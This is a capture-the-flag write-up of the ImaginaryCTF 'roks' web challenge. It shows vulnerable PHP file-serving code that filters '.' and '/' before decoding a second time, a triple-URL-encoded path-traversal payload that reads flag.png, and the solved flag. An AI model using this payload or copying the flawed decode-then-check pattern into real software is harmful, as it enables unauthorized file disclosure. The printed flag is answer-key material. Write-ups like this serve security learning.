 **Name: Sen0rC4**

**Challenge Name: roks**

**Category: Web**

**Points: 100**

## Challenge:

My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
Attachments

[roks.zip](files/roks.zip) 

## Approach:

When going to the site you are greeted by a button that picks a random picture of a rock.

If you intercept the request with burp, we see it uses ==file== inclusion. So I am thinking path traversal.

`GET /file.php?file=image4 HTTP/1.1
Host: roks.chal.imaginaryctf.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://roks.chal.imaginaryctf.org/
Cookie: _ga_0LKSSBL38W=GS1.1.1690084714.5.1.1690084784.0.0.0; _ga=GA1.1.865862315.1690061016; _ga_BHMLHVLGF2=GS1.1.1690079570.3.0.1690079574.0.0.0`

However, when we try to path traverse we recieve the ==stop hacking you hackers== image.

`/file.php?file=../../../../../../flag.png == stop hacking you hackers`

Lets take a look at the provided source code:


`<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>`

Website dosent allow "." or "/"

looks like it urldecodes once to check for . and /

it then decodes again to grab the rok file name

So we should url encode our request url twice to make sure it dosent see our "." or "/".

CyberChef will encode "." if you check the "encode all special characters

It also allows you to string together multiple encodes.

`%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fflag%252Epng`


We still get stop hacking image

I did some more enumeration and went to robots.txt and we see the site is made with apache.... which url decodes once before the site sees the request

If we url encode 3 times we should be able to path traverse

request sent: `http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng`

flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`
